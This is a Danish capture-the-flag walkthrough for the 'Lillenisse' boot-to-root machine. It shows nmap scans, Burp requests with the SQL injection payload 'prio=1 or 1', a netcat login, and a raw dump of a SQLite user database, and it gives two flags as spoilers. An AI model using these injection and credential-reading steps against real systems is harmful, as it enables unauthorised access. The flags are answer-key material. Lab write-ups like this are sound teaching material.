

## B2R - Lillenisse
<hr>

I Boot2Root får deltagerne en maskine som de skal prøve at hacke sig ind i. Det er vores måde at få nogle opgaver med i konkurrencen indenfor "WEB" og "PWN". Disse er typisk hostet på en IP/Port som deltagerne får. Men desværre giver det mulighed for at uheldige typer kan ødelægge det sjove for alle andre, og vi ville derfor hellere give deltagerne en virtuel maskine (VM).

I 2018 gav vi derfor en ukrypteret virtuel maskine ligesom man kender det fra f.eks. Vulnhub.com. Men på trods af de gode intentioner, troede nogle at opgaven bare gik ud på at mounte maskinen og derved finde flagne. Ret ærgerligt, for maskinen var ellers ret fin.

I 2019 gav vi så en kørende virtuel maskine, der havde LUKS kryptering. Et par stykker i NC3 havde allerede fundet en vej udenom dette, men vi vurderede alligevel at hvis nogle deltagere gjorde det samme, så var det ok, da det trods alt krævede noget arbejde.

I år er det lidt anderledes: Vi har lavet en (privat) maskine på platformen TryHackMe.com, hvor deltagerne kan starte deres egen instans af vores maskine, men altså ikke downloade den.

<br>

### Gennemgang
<hr>

Denne gennemgang finder først flaget til mellemnisse og først derefter til lillenisse. Det er fordi vi springer SQLMap over, som ellers ville være den mest gængse vej, og viser en anden måde.

Brug f.eks. Kali eller Parrot i en VM.

Opret dig som bruger på TryHackMe.com og start maskinen. Vi starter med en NMAP:

```shell
kali@kali:~/Desktop$ nmap -v 10.10.158.251
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-20 07:22 EST
Initiating Ping Scan at 07:22
Scanning 10.10.158.251 [2 ports]
Completed Ping Scan at 07:22, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:22
Completed Parallel DNS resolution of 1 host. at 07:22, 0.03s elapsed
Initiating Connect Scan at 07:22
Scanning 10.10.158.251 [1000 ports]
Discovered open port 80/tcp on 10.10.158.251
Completed Connect Scan at 07:22, 5.57s elapsed (1000 total ports)
Nmap scan report for 10.10.158.251
Host is up (0.050s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.70 seconds
kali@kali:~/Desktop$
```

Der kører altså en hjemmeside på target.

Besøg hjemmesiden med en kombination af Burp og Firefox:



Vi ser at det er underligt at når der kommer et nyt entry med "høj prioritet", så filtreres listen og man ser kun ens ønsker med høj prioritet.

I Burp ser vi:

```text
POST /index.php HTTP/1.1
Host: 10.10.158.251
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.158.251/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Connection: close
Cookie: PHPSESSID=nbhvanoocra1ts4vsugmddkca0
Upgrade-Insecure-Requests: 1

wish=asdasdddd&prio=1


```

Vi laver en repeat uden "wish":

```text
POST /index.php HTTP/1.1
Host: 10.10.158.251
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.158.251/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Connection: close
Cookie: PHPSESSID=nbhvanoocra1ts4vsugmddkca0
Upgrade-Insecure-Requests: 1

prio=1


```

Dette returnerer en filtreret liste. Dette kunne tyde på en SQLi, og vi prøver:

```text
POST /index.php HTTP/1.1
Host: 10.10.158.251
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.158.251/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: close
Cookie: PHPSESSID=nbhvanoocra1ts4vsugmddkca0
Upgrade-Insecure-Requests: 1

prio=1 or 1


```

Ganske rigtigt, så returneres nu alle ønsker i databasen. Bl.a.:

```text
Noget magi til at færdiggøre mit kodeprojekt på /nissetestprojekt2020
```

Dette fortæller os at vi bør ligge i den mappe på hjemmesiden.

Siden viser "Gå i DEV mode". Vi trykker, og tænker at det måske har åbnet for en firewall. Derfor NMAP'er vi igen:

```shell
kali@kali:~/Desktop$ nmap -v 10.10.158.251
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-20 07:36 EST
Initiating Ping Scan at 07:36
Scanning 10.10.158.251 [2 ports]
Completed Ping Scan at 07:36, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:36
Completed Parallel DNS resolution of 1 host. at 07:36, 0.01s elapsed
Initiating Connect Scan at 07:36
Scanning 10.10.158.251 [1000 ports]
Discovered open port 22/tcp on 10.10.158.251
Discovered open port 8080/tcp on 10.10.158.251
Discovered open port 80/tcp on 10.10.158.251
Completed Connect Scan at 07:36, 1.79s elapsed (1000 total ports)
Nmap scan report for 10.10.158.251
Host is up (0.043s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.87 seconds
kali@kali:~/Desktop$
```

Hov, nu er der to yderligere porte. Vi prøver port 8080:

```text
Directory listing for /

    nisseadgang.elf
```

Vi downloader filen, der skal reverses. Writeup til dette er [her](B2R%20-%20Mellemnisse.md). Vi finder kodeordet, der ligner et flag:

<details>
<summary>Spoiler alert - Flaget til mellemnisse:</summary>
nc3{abrakadabra_luk_dig_op}
</details>
<br>

Vi logger ind med kodeordet, der må tilhøre "mellemnisse":

```text
kali@kali:~/Desktop$ nc 10.10.158.251 4545
Nissernes indgang
---------------------------------
Kodeord: <REDACTED>
 ... ok
> id
uid=1002(mellemnisse) gid=1002(mellemnisse) groups=1002(mellemnisse)
```

Men det var jo flaget til "mellemnisse". Lad os prøve at finde flaget for "lillenisse". Et godt sted kunne være i databasen. Vi kigger i kildekoden for hjemmesiden og ser at databasen er SQLite, og ikke den mere gængse MySQL.

```text
cd /var/www
ls
database
html
cd database
ls
nisser.sqlite
strings nisser.sqlite
sh: 6: strings: not found
cat nisser.sqlite
SQLite format 3@  

f�%%�GtableønskesedlerønskesedlerCREATE TABLE "ønskesedler" (
    "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
    "bruger_id" INTEGER,
    "ønske" VARCHAR,
    "høj_prioritet" INTEGER DEFAULT 0,
        FOREIGN KEY (bruger_id)
        REFERENCES nisser (id) 
)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��        tablenissernisserCREATE TABLE "nisser" (
    "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
    "brugernavn" VARCHAR,
    "kodeord" VARCHAR
�����
���%ønskesedleremnisseEhh lillenisse, bruger du overhovedet salts?+!Glillenissenc3{jeg_er_ikke_til_at_finde}

nisser
�����:,!
        asdasdddd
                       asdasd   asd
                                        asdasdN �       Noget magi til at færdiggøre mit kodeprojekt på /nissetestprojekt2020*  En flyver (helst med plads til mange)    Stor yacht     En OK bil        Bare en cykel   En vandrestok!
```

Flaget er fundet for "lillenisse":

<details>
<summary>Spoiler alert - Flaget til lillenisse:</summary>
nc3{jeg_er_ikke_til_at_finde}
</details>
